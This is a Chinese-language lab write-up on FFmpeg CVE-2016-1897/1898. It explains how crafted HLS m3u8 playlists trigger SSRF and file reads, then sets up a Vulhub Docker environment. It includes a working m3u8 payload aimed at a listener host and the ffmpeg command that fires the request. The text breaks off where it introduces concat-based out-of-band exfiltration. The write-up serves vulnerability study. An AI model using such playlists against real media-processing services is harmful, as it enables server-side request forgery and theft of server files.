


# FFmpeg 任意文件读取漏洞/SSRF漏洞 CVE-2016-1897/CVE-2016-1898

## 漏洞描述

FFmpeg 是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

在 FFMpeg2.X 由于在解析 HTTP Live Streaming 流媒体 m3u8 文件处理不当，可导致 SSRF 漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用 FFMpeg 进行处理时会触发该漏洞。

这个漏洞有两个 CVE 编号，分别是 CVE-2016-1897 和 CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897 只能读取文件的第一行。

- [http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8%20-%20FFMpeg%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html](http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8 - FFMpeg漏洞分析.html)
- http://habrahabr.ru/company/mailru/blog/274855/

目前该漏洞已在FFMpeg **2.8.5**中修复。

## 漏洞影响

```
FFmpeg 2.8.x < 2.8.5
FFmpeg 2.7.x < 2.7.5
FFmpeg 2.6.x < 2.6.7
FFmpeg 2.5.x < 2.5.10
```

## HLS协议分析

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

```
http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128
```

这是youku一个视频的m3u8文件，内容如下：

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST
```

解析：

- \#EXTM3U 标签是m3u8的文件头，开头必须要这一行
- \#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
- \#EXT-X-VERSION:2 该标签可有可无
- \#EXTINF:6, 表示该一段TS流文件的长度
- \#EXT-X-ENDLIST 这个相当于文件结束符

这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。

## 环境搭建

Vulhub搭建环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:8080/`上传文件。

## 漏洞复现

### SSRF

访问`http://your-ip:8080/`上传文件，文件名为`6215ca35009ea.mp4`。

直接用FFMpeg解析一个多媒体文件，构造test.m3u8文件，文件内容：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://192.168.174.128:9999/1.html
#EXT-X-ENDLIST
```

（#EXT-X-MEDIA-SEQUENCE或#EXT-X-TARGETDURATION必须存在任意一个，前者是定义ts流文件的序号。去掉会报错：无效文件）

将test.m3u8文件拷贝到docker环境`/var/www/html`目录，与上传文件在同一目录下。

```
$ vim test.m3u8
$ docker cp test.m3u8 23f6:/var/www/html/
```

进入docker执行`ffmpeg -i test.m3u8 6215ca35009ea.mp4`（也可把m3u8格式改成其他后缀，ffmpeg会自动识别为HLS流文件）

```
$ docker exec -it 23f6 /bin/bash
$ cd /var/www/html
$ ffmpeg -i test.m3u8 6215ca35009ea.mp4
```



执行命令时直接发起了http请求，这就造成一个SSRF。监听9999端口，成功收到请求：



既然可以请求外部数据，因此可以尝试 SSRF 带外，ffmpeg 内部有一个 concat 函数，因此我们可以将内部数据通过 concat 拼接 OOB。

